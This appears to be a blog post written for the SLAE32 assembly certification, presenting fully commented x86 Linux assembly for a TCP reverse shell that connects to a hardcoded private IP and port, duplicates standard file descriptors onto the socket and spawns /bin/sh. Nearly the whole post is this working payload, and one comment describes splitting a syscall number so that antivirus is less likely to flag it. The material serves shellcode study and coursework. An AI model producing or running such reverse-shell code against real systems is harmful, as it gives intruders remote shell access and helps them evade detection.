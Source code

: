 ```yaml
---
layout: post
title: SLAE32 Assignment 2 - reverse shell
excerpt: asm code and comment for my revshell
---
```

    ; name       : tcprevshell
    ; author     : Sandro "guly" Zaccarini SLAE-1037
    ; purpose    : the program will create a new connection to given ip/port and present
    ;              a shell to it this code has been written for SLAE32 assignment 2
    ; references : https://syscalls.kernelgrok.com/ , /usr/include/linux/net.h ,
    ;              man socketcall
    ; license    : CC-BY-NC-SA
    ;
    ; high level flow:
    ; socket -> connect -> dup fd -> spawn /bin//sh
    ;
    ; i'll use different function name to keep it more readable. mostly, function are
    ; never called and are used just as "anchor for the human eyes"
    
    global _start
    
    section .text
    
    ; dummy function used to break easily on gdb while debugging, just rets without
    ; touching anything.
    ; i used to place a call trap and recompile, while having a "b trap" on ~/.gdbinit
    trap:
    ret
    
    zero:
    ; zero eax and ebx by xoring against themself
    xor eax,eax
    xor ebx,ebx
    ret
    
    socketcall2eax:
    ; syscall code for socketcall in eax, which is 0x66, no need to zero because of mov
    ; i'm using add to avoid hardcoded 0x66 call, which could be trapped by some AV,
    ; when 0x33 is the call acct and looks harmless to me
    mov al,0x33
    add al,0x33
    ret
    
    ; main code starts here
    _start:
    ; start by zeroing eax,ebx. not really needed because registers are clean, but better
    ; safe than sorry
    call zero
    
    createsocket:
    ; -----------------------------------------------------------------------------------
    ; purpose     : create a socket
    ; references  : man socket
    ; description : socketcall is the syscall used to work with socket. i'm going to use
    ;               this syscall to create and connect
    ;               the very first thing i have to do, is to create the socket itself.
    ;               by reading references, i see that she needs 3 registers:
    ; eax => syscall id 0x66 for socketcall, that will be the same for every socketcall
             call of course and that's why i created a function on top
    ; ebx => socket call id, that is 0x1 for socket creation
    ; ecx => pointer to socket args
    ;
    ; man socket shows me that socket's args are:
    ; domain   => AF_INET because i'm creating a inet socket, and is 0x2
    ; type     => tcp is referenced as STREAM, that is 0x1
    ; protocol => unneded here because there is no inner protocol, so i'll use 0x0
    
    ; not, i'm creating ecx because a zeroed eax is perfect for the purpose
    ; arg will be pushed in reverse order with no hardcoded address: 0, 1, 2
    push eax
    inc eax
    push eax
    inc eax
    push eax
    
    ; because socketcall needs a pointer, i'm moving esp address to ecx
    mov ecx,esp
    
    ; prepare eax to hold the socketcall value as discussed before
    call socketcall2eax
    
    ; because ebx is 0, i can just inc to have it to 1 for socketcall to call socket
    ; (pun intended :) )
    inc ebx
    
    ; do the call and create socket
    int 0x80
    
    ; because syscall rets to eax, if everything's good, eax will hold socket fd:
    ; save it to esi to have it safe for the whole run
    mov esi,eax
    
    connect:
    ; -----------------------------------------------------------------------------------
    ; purpose     : connect to raddr:rport
    ; references  : man connect , man 7 ip
    ; description :
    ; eax => syscall id 0x66 for socketcall
    ; ebx => connect call id, 0x3 taken from linux/net.h
    ; ecx => pointer to address struct
    ;
    ; man connect shows me that args are:
    ; sockfd  => already saved in esi
    ; address => pointer to ip struct
    ; addrlen => addrlen is 32bit (0x10)
    ;
    ; man 7 ip shows address struct details. arguments are:
    ; family => AF_INET, so 0x2
    ; port   => held by rport from .data
    ; addr   => held by raddr from .data
    
    ; again, better safe than sorry
    call zero
    
    ; push arg in reverse and move the pointer to ecx
    ; prepare stack pointer to addr struct defined in man 7 ip
    ; push raddr, defined in .data
    push raddr
    ; push port to bind to, defined in .data. pushed as word.
    push word rport
    ; push AF_INET value as word again
    push word 0x2
    ; get stack pointer to ecx
    mov ecx,esp
    
    ; push arg, again in reverse order
    ; addrlen is fixed to 16, or 0x10
    push byte 0x10
    ; pointer to addr struct
    push ecx
    ; sockfd, saved before to esi
    push esi
    ; stack pointer to ecx again, to feed bind socketcall
    mov ecx,esp
    
    ; ebx has been zeroed, mov 0x3 to him
    mov bl,0x3
    
    ; same call to have 0x66 to eax and do socketcall
    call socketcall2eax
    
    ; do the call
    int 0x80
    
    dupfd:
    ; -----------------------------------------------------------------------------------
    ; purpose     : create fd used by /bin//sh
    ; references  : man dup2
    ; description : every shell has three file descriptor: STDIN(0), STDOUT(1), STDERR(2)
    ; this code will create said fd
    ; eax => 0x3f got from kernelgrok website
    ; ebx => clientid
    ; ecx => newfd id, said file descriptor
    ;
    ; i'm going to create them by looping using ecx, to save some instruction.
    ; ecx will start at 2, then is dec and fd is created.
    ; as soon as ecx is 0, the loop ends
    
    
    ; i'm using a different method from one i've used for bindshell just to try.
    ; i'll put 0x3 to ecx to start creating STDERR just after dec
    ; ecx is dirty but edx is 0x0, just swap them
    xchg ecx,edx
    mov cl,0x3
    
    ; copy socket fd to ebx to feed clientid
    mov ebx,esi
    
    ; zero eax and start the loop
    xor eax,eax
    dup2:
    ; dup2 call id
    mov al,0x3f
    
    ; dec ecx to have 2,1,0
    dec ecx
    int 0x80
    ; loop until ecx is 0x0, we then have 3 runs: with 2, 1, 0 values
    jnz dup2
    
    spawnshell:
    ; -----------------------------------------------------------------------------------
    ; purpose     : spawn /bin//sh
    ; references  : man execve
    ; description : put /bin//sh on the stack, aligned to 8 bytes to prevent 0x00 in the
    ;               shellcode and null terminating it by pushing a zeroed register
    ;
    ; eax => execve call, 0xB
    ; ebx => pointer to executed string, which will be /bin//sh null terminated
    ; ecx => pointer to args to executed command, that could be 0x0
    ; edx => pointer to environment, which could be 0x0
    ;
    ; i need to push a nullbyte to terminate the string, easiest way is to zero a reg and
    ; push it but i know ecx is 0x0 so i can save one op
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    ; here the stack will looks like a null terminated /bin/sh:
    ; /bin//sh\0\0\0\0\0\0\0\0
    
    ; and place pointer to ebx
    mov ebx,esp
    
    ; envp to edx and ecx
    push ecx
    mov edx,esp
    push ecx
    mov ecx,esp
    
    ; execve syscall here
    mov al,0xB
    
    ; and pop shell
    int 0x80
    
     _end:
    ; neat exit
    xor eax,eax
    mov al,0x1
    int 0x80
    
    section .data
    ; 65533 converted in hex, then little endian
    rport equ 0xFDFF
    ; 172.16.201.162 in hex, then little endian
    ; i'm lucky that i don't have any 0 in my address, else raddr will contain null bytes
    ; i'm going to publish also a 02_revshell_tcp_127.0.0.1.asm to challenge myself a bit
    raddr equ 0xa2c910ac
    
*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*
